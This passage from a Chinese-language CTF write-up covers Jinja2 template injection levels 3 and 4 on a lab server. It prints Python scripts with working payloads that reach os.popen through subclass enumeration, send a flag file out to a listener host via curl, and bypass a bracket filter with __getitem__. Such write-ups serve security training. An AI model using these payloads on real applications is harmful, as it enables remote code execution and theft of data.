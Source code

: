 对输入的字符串进行渲染,如果渲染异常返回 wrong,渲染正确返回 correct.

由于没有任何回显,可以写个脚本盲打

脚本内容如下:

```python
import requests

url = "http://192.168.0.108:5001/level/3"

for i in range(300):
	try:
		data = {"code": '{{"".__class__.__base__.__subclasses__()[' + str(i) + '].__init__.__globals__["popen"]("curl http://192.168.0.105:8081/`cat flag`").read()}}'}
		response = requests.post(url,data=data)
	except :
		pass
```

在本地开个监听,

运行脚本,拿到 flag

![image-20210927155336932](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210927155336932.png)

### Level 4 bypass [ ]

![image-20210924190136543](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210924190136543.png)
初步尝试后,发现过滤了`[ ]`,其余没有任何过滤,此处可以使用`__getitem__()`绕过

> \_\_getitem\_\_() 是 python 的一个魔法方法,当对列表使用时,传入整数返回列表对应索引的值;对字典使用时,传入字符串,返回字典相应键所对应的值.

简单更改 `Level 1`的脚本用于本题

```python
import requests

url = "http://192.168.0.108:5001/level/4"

for i in range(300):
	data = {"code": '{{"".__class__.__base__.__subclasses__().__getitem__('+ str(i) +')}}'}
	try:
		response = requests.post(url,data=data)
		if response.status_code == 200:
			if "_wrap_close" in response.text:
				print(i,"----->",response.text)
				break
	except :
		pass
# 结果  132 -----> Hello &lt;class &#39;os._wrap_close&#39;&gt;
```

可以看到列表 132 的索引位置出现了可利用的类,直接构造 payload,拿到 flag

`{{''.__class__.__base__.__subclasses__().__getitem__(132).__init__.__globals__.__getitem__('popen')('cat flag').read()}}`
